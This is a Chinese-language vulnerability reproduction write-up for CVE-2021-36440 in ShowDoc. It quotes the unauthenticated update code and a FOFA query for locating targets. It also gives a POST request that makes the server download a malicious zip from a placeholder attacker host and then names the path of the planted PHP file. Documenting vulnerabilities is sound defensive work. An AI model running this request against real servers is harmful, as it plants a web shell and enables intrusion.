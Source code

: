 # ShowDoc AdminUpdateController.class.php 任意文件上传漏洞 CVE-2021-36440

## 漏洞描述

ShowDoc AdminUpdateController.class.php 文件中的更新部分代码没有鉴权且存在任意文件上传漏洞

## 漏洞影响

```
ShowDoc < V2.9.5
```

## FOFA

```
app="ShowDoc"
```

## 漏洞复现

登录页面

![image-20220524153008064](./images/202205241530123.png)

文件路径`server/Application/Api/Controller/AdminUpdateController.class.php`

![](./images/202205241530546.png)

```
public function download(){
        set_time_limit(1000);
        ini_set('memory_limit','500M');
        $new_version = I("new_version") ;
        $file_url = I("file_url") ;
        $version_num = str_replace("v","",$new_version) ;

        $showdoc_path = "../" ;

        // 进行文件读写权限检查
        if(!$this->new_is_writeable($showdoc_path)
            || !$this->new_is_writeable($showdoc_path."Sqlite/" )
            || !$this->new_is_writeable($showdoc_path."web/" )
            || !$this->new_is_writeable($showdoc_path."web/index.php" )
            || !$this->new_is_writeable($showdoc_path."server/" )
            || !$this->new_is_writeable($showdoc_path."server/vendor/autoload.php" )
            || !$this->new_is_writeable($showdoc_path."server/Application/Api" )
        ){
            $this->sendError(10101,'请手动给showdoc安装目录下的所有文件可写权限，否则程序无法覆盖旧文件');
            return ;
        }

        $temp_dir = sys_get_temp_dir()."/showdoc_update/";
        $zip_file = $temp_dir.'showdoc-'.$version_num.'.zip' ;
        mkdir($temp_dir) ;
        unlink($zip_file);
        $file = file_get_contents($file_url);
        file_put_contents($zip_file,$file);
        
        $zip = new \ZipArchive();
        $flag = $zip->open($zip_file);
        if($flag!==true){
            $this->sendError(10101,'下载更新压缩包失败');
            return ;
        }
        $zip->extractTo($temp_dir);
        $flag = $zip->close();
        
        $zip_file_subpath = $temp_dir.'showdoc-'.$version_num."/" ;
        
        if(file_exists($zip_file_subpath.'composer.json') && file_exists($zip_file_subpath.'web/index.php') && file_exists($zip_file_subpath.'server/vendor/autoload.php') ){
            //echo $zip_file_subpath.'存在';
            // 移动目录到upload/update
            $this->copydir($zip_file_subpath ,$showdoc_path.'Public/Uploads/update/' );
            $this->deldir($temp_dir);
            $this->sendResult(array());
        
        }else{
            $this->sendError(10101,'下载更新压缩包后，解压的文件缺失');
            return ;
        }
    }
```

这里可以看到 $file_url 参数可控，可在任意URl下载 zip文件，向后看看ZIP要求为需要存在部分文件

```
if(file_exists($zip_file_subpath.'composer.json') && file_exists($zip_file_subpath.'web/index.php') && file_exists($zip_file_subpath.'server/vendor/autoload.php') ){
```

制作ZIP包，index.php 为恶意文件

![image-20220524153052669](./images/202205241530708.png)

发送请求包

```
POST /server/index.php?s=/api/adminUpdate/download
  
file_url=http://xxx.xxx.xxx:8888/showdoc-2.zip&new_version=2
```

![](./images/202205241531609.png)

访问上传的文件页面 `Public/Uploads/update/web/index.php`